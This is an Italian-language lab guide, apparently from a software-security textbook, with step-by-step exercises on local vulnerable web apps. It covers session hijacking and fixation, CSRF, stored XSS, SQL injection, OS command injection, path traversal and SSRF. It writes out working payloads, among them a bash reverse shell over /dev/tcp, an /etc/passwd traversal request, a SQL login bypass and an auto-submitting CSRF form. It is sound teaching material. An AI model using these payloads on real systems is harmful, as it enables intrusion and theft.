




# Web Application Vulnerabilities

I seguenti esempi sono disponibile nella macchina virtuale nella cartella `swsec-labs/web-security/`, e nel repository online su <https://github.com/swsec-book/swsec-labs>.

## Session Hijacking

Il seguente esempio mostra un caso di attacco di tipo **session hijacking**. Il programma è nella sotto-cartella `swsec-labs/web-security/session-hijacking` della macchina virtuale.

Se un utente subisce il furto dei suoi *cookie*, un attaccante può impersonarlo nell'accedere ad un sito web.



Per simulare l'attacco, avviate l'applicazione web vulnerabile.

```
$ cd session-hijacking
$ docker compose build
$ docker compose up -d
```

Aprite una prima finestra del browser, che avrà il ruolo di **utente vittima**.

1. Visitate il sito <http://localhost>.
2. Il sito web mostra, per comodità, il token di sessione (*session ID*) che è stato assegnato all'utente vittima, e che è stato salvato in un cookie.
3. Fate il login con username `admin` e password `admin`. Da questo momento, la sessione consente l'accesso ad una ipotetica pagina di amministrazione del sito.

Aprite una seconda finestra del browser in modalità **incognito**, che avrà il ruolo di **attaccante**. La modalità incognito permette di separare la sessione dell'utente vittima da quella dell'attaccante, in modo da simulare uno scenario realistico.

1. Visitate il sito <http://localhost>.
2. Aprite gli *strumenti sviluppatore* forniti dal browser, e ispezionate il contenuto del cookie `PHPSESSID`.
3. Modificate il contenuto del cookie `PHPSESSID`, effettuando un copia-incolla del token di sessione dalla finestra dell'utente vittima. Questa operazione simula il furto di cookie da parte dell'attaccante (ad esempio, tramite tecniche di *information stealing*).
4. Ricaricate la pagina. Da questo momento, anche la finestra dell'attaccante ha accesso alla pagina di amministrazione del sito.


Con la stessa applicazione dimostrativa, è anche possibile effettuare una variante dell'attacco, detta **session fixation**.

Aprite una prima finestra del browser in modalità **incognito**, che avrà il ruolo di **attaccante**, e una secondo finestra del browser che avrà il ruolo di **utente vittima**.

1. Nel browser dell'attaccante, visitate il sito <http://localhost>.
2. Prendete nota del session ID, per creare lo URL <http://localhost?PHPSESSID=abcde>, sostituendo il valore del session ID nello URL.
3. Fate copia-incolla dello URL nella finestra dell'utente vittima per visitare il sito web. La variabile `PHPSESSID` nello URL forza la sessione dell'utente vittima ad usare lo stesso session ID che è stato creato dall'attaccante. Da questo momento, attaccante e vittima condividono lo stesso token.
4. Nella finestra dell'utente vittima, effettuate il login con username `admin` e password `admin`.
5. Nella finestra dell'attaccante, ricaricate la pagina senza fare il login. L'attaccante avrà comunque accesso alla pagina di amministrazione del sito.


Per chiudere l'applicazione, utilizzate questo comando.

```
$ docker compose down
```

## Cross-Site Request Forgery (CSRF) {#csrf}

Il seguente esempio mostra un caso di attacco di tipo **CSRF**, su una versione vulnerabile della applicazione web *Elgg* che simula un social network. L'esempio è tratto da <https://seedsecuritylabs.org/>. 

Il programma è nella sotto-cartella `swsec-labs/web-security/csrf-elgg` (per gli utenti di sistemi x86) oppure `swsec-labs/web-security/csrf-elgg-arm` (per gli utenti di sistemi Apple). 



In questo attacco, l'attaccante è rappresentato dall'utente **Samy** del social network, e la vittima è rappresentata dall'utente **Alice**. Inoltre, l'attaccante dispone di un ulteriore utente **Charlie** sul social network, ai fini di analizzare il funzionamento del sito.

In questo attacco, Samy induce Alice a visitare una pagina web malevola (ad esempio, tramite social engineering). La pagina malevola invierà una richiesta cross-site malevola al social network, impersonando l'utente Alice. A seguito della richiesta, Samy sarà stato aggiunto alla cerchia degli "amici" di Alice, ad insaputa di Alice.

Avviate la applicazione Elgg.

```
$ cd csrf-elgg
$ docker compose build
$ docker compose up -d
```

Aprite una prima finestra del browser, che avrà il ruolo di **utente vittima**.

1. Visitate il sito <http://www.seed-server.com>.
2. Effettuate il login con username `alice` e password `seedalice`.
3. Visitate la pagina *Friends* del sito. Inizialmente, la lista degli amici di Alice è vuota.
4. Lasciate la pagina aperta, senza effettuare il logout.

Aprite una seconda finestra del browser in modalità **incognito**, che avrà il ruolo di **attaccante**.

1. Visitate il sito <http://www.seed-server.com>.
2. Effettuate il login con username `charlie` e password `seedcharlie`.
3. Visitate la pagina *Members* del sito, e poi il profilo dell'utente Samy. Prendete nota dello URL collegato al tasto *Add Friend*. Lo URL è del tipo *http://www.seed-server.com/action/friends/add?friend=42...*, dove il valore 42 rappresenta l'utente Samy.
4. All'interno della cartella del codice dell'esempio, nella sotto-cartella `attacker`, modificate `addfriend.html` come segue. Modificare il valore 42 se necessario.

```
<script>
window.onload = function(){

  // Create a <form> element
  var p = document.createElement("form");
  p.action = "http://www.seed-server.com/action/friends/add";
  p.method = "get";

  // The attack fills the form with the "friend" parameter
  // The fields are hidden, the victim will not see them.

  p.innerHTML = "<input type='hidden' name='friend' value='42'>";

  // Append the form to the current page
  document.body.appendChild(p);

  // Submit the form
  p.submit();
}
</script>
```

Nella finestra dell'utente vittima (la prima che avete aperto ossia, quella dell'utente Alice).

1. Visitate il sito <http://www.attacker32.com/> in una tab separata del browser.
2. Aprite di nuovo <http://www.seed-server.com>. Non è necessario ripetere il login.
3. Visitate di nuovo la pagina *Friends* del sito. Se l'attacco ha avuto successo, l'utente Samy appare nella lista degli amici di Alice.


Per chiudere l'applicazione, utilizzate i seguenti comandi.

```
$ docker compose down
$ docker container prune
$ docker network prune
```

## Cross Site Scripting (XSS) {#xss}

Il seguente esempio mostra un caso di attacco di tipo **Stored XSS**, su una versione vulnerabile della applicazione web *Elgg* che simula un social network. L'esempio è tratto da <https://seedsecuritylabs.org/>.

Il programma è nella sotto-cartella `swsec-labs/web-security/xss-elgg` (per gli utenti di sistemi x86) oppure `swsec-labs/web-security/xss-elgg-arm` (per gli utenti di sistemi Apple). 

In questo esempio, l'utente Samy inserisce del codice Javascript nella sua biografia del social network. Quando l'utente Alice visita la biografia di Samy, il codice Javascript viene eseguito nel browser di Alice. Il codice può accedere ai cookie di Alice (consentendo ad esempio il furto di cookie), può effettuare richieste HTTP per conto di Alice, può tracciare gli eventi nel browser quando Alice interagisce con la pagina, e può modificare il contenuto della pagina visualizzato da Alice.

Avviate la applicazione Elgg.

```
$ cd xss-elgg
$ docker compose build
$ docker compose up -d
```

Aprite una prima finestra del browser in modalità **incognito**, che avrà il ruolo di **attaccante**.

1. Visitate il sito <http://www.seed-server.com>.
2. Effettuate il login con username `samy` e password `seedsamy`.
3. Visitate la pagina *Edit profile*.
4. Vicino alla casella di testo intitolata *About me*, clickate sul link *edit HTML*. In questo modo, il testo inserito nella casella verrà inviato al server senza modifiche per la formattazione grafica.
5. Inserite del codice Javascript nella casella di testo *About me*. Ad esempio, è possibile fare una prova inserendo il codice `<script>alert('XSS');</script>`.





Aprite una seconda finestra del browser, che avrà il ruolo di **utente vittima**.

1. Visitate il sito <http://www.seed-server.com>.
2. Effettuate il login con username `alice` e password `seedalice`.
3. Visitate la pagina *Members* del sito, e poi il profilo dell'utente Samy.
4. Il codice Javascript sarà eseguito dal browser. Nel caso dell'esempio precedente, verrà visualizzato un popup con il messaggio *XSS*.

Per simulare il furto di cookie, è possibile sostituire il codice Javascript precedente con il codice seguente.

```
<script>
   document.write('');
</script>
```

Per eseguire l'attacco:

1. Avviate da un'altra finestra di terminale il tool netcat con il comando `nc -lknv 5555`. Il tool rimane in ascolto di connessioni.
2. Nella finestra dell'utente Alice, ripetete le stesse operazioni precedenti.
3. Il tool netcat riceverà una richiesta HTTP, contenente nello URL il contenuto dei cookie di Alice.

Per chiudere l'applicazione, utilizzate i seguenti comandi.

```
$ docker compose down
$ docker container prune
$ docker network prune
```

## SQL injection

Il seguente esempio mostra un caso di attacco di tipo **SQL Injection** su una semplice applicazione web con un database, contenente i dati privati degli impiegati di una azienda. L'esempio è tratto da <https://seedsecuritylabs.org/>.

Il programma è nella sotto-cartella `swsec-labs/web-security/sql-injection` (per gli utenti di sistemi x86) oppure `swsec-labs/web-security/sql-injection-arm` (per gli utenti di sistemi Apple). 

Per avviare la applicazione, usare i seguenti comandi.
```
$ cd sql-injection
$ docker compose build
$ docker compose up -d
```

Di seguito è riportata la struttura della tabella nel database, e il codice PHP con la query SQL vulnerabile all'attacco di SQL injection.

| Name  | ID    | Password  | Salary | Birthday | SSN      | Nickname | Email | Address | PhoneNumber |
| ----- | ----- | --------- | ------ | -------- | -------- | -------- | ----- | ------- | ----------- |
| Admin | 99999 | seedadmin | 400000 | 3/5      | 43254314 |          |       |         |             |
| Alice | 10000 | seedalice | 20000  | 9/20     | 10211002 |          |       |         |             |
| Boby  | 20000 | seedboby  | 50000  | 4/20     | 10213352 |          |       |         |             |
| Ryan  | 30000 | seedryan  | 90000  | 4/10     | 32193525 |          |       |         |             |
| Samy  | 40000 | seedsamy  | 40000  | 1/11     | 32111111 |          |       |         |             |
| Ted   | 50000 | seedted   | 110000 | 11/3     | 24343244 |          |       |         |             |

```
$input_uname = $_GET['username'];
$input_pwd = $_GET['password'];
$hashed_pwd = sha1($input_pwd);

$sql = "SELECT id, name, edit, salary, birth, ssn, address, email, nickname, password
        FROM credential
        WHERE name='$input_uname' and password='$hashed_pwd'";

$result = $conn->query($sql);
```

È possibile effettuare il login come amministratore, anche senza conoscerne la password, inserendo nel campo *username* del form di login la stringa `Admin';#` (includendo i caratteri speciali dopo la parola *Admin*). La stringa nel campo *password* è indifferente per l'attacco.

Per chiudere l'applicazione, utilizzate i seguenti comandi.

```
$ docker compose down
$ docker container prune
$ docker network prune
```

## OS command injection

Questo programma di esempio mostra una vulnerabilità di **OS Command Injection**.

Il programma è disponibile nella sotto-cartella `swsec-labs/web-security/os-injection` della macchina virtuale.

Il programma contiene la seguente istruzione vulnerabile.

```
system("ping -c 3 ".$_GET['host'], $result_code);
```

Per avviare il programma, utilizzare i seguenti comandi.
```
cd os-injection
php -S localhost:8000
```

Si può sfruttare la vulnerabilità per creare una reverse shell.

1. In una nuova finestra di terminale, lanciare il tool netcat in ascolto di connessioni, con il comando `nc -lv 12345`.
2. Nel form della pagina web <http://localhost:8000>, inserire nel campo *hostname* del form la stringa `example.com; bash -c 'bash -i >/dev/tcp/127.0.0.1/12345 0<&1 2>&1'`. Il secondo comando all'interno della stringa usa la shell *bash* per redirigere l'I/O della shell verso una connessione TCP. 


## Path traversal

Il seguente esempio mostra un caso di attacco di tipo **path traversal** su una semplice applicazione web in Python. L'applicazione mostra un elenco di utenti. Clickando sul nome di un utente, viene visitata una pagina al percorso indicato nel parametro dello URL.

Il programma è disponibile nella sotto-cartella `swsec-labs/web-security/path-traversal` della macchina virtuale.


Per eseguire l'applicazione:

```
$ python3 -m venv env
$ source env/bin/activate
$ pip3 install flask
$ pip3 install requests

$ export FLASK_RUN_PORT=8080
$ flask --app meetr.py run
```

È possibile innescare la vulnerabilità con il seguente comando.

```
$ curl -s "http://localhost:8080/profile?image=../../../../../../etc/passwd"
```

Se necessario, aggiungere ulteriori frammenti di percorso "../" nel parametro.

## Server-Side Request Forgery (SSRF) {#ssrf}

Il seguente esempio mostra un caso di attacco di tipo **SSRF** su una semplice applicazione web in Python. L'applicazione permette di caricare una immagine da un URL, da indicare in un form.

Il programma è disponibile nella sotto-cartella `swsec-labs/web-security/ssrf` della macchina virtuale.

Per eseguire l'applicazione:

```
$ python3 -m venv env
$ source env/bin/activate
$ pip3 install flask
$ pip3 install requests

$ export FLASK_RUN_PORT=8080
$ flask --app meetr.py run
```

È possibile innescare la vulnerabilità con i seguenti comandi (si genera una richiesta web verso `example.org`).

```
$ curl -s "http://localhost:8080/pfp?url=http%3A%2F%2Fexample.org"
$ curl -s "http://localhost:8080/profile.png"
...
    <h1>Example Domain</h1>
    <p>This domain is for use in illustrative examples in documents. You may use this
    domain in literature without prior coordination or asking for permission.</p>
    <p><a href="https://www.iana.org/domains/example">More information...</a></p>
...
```
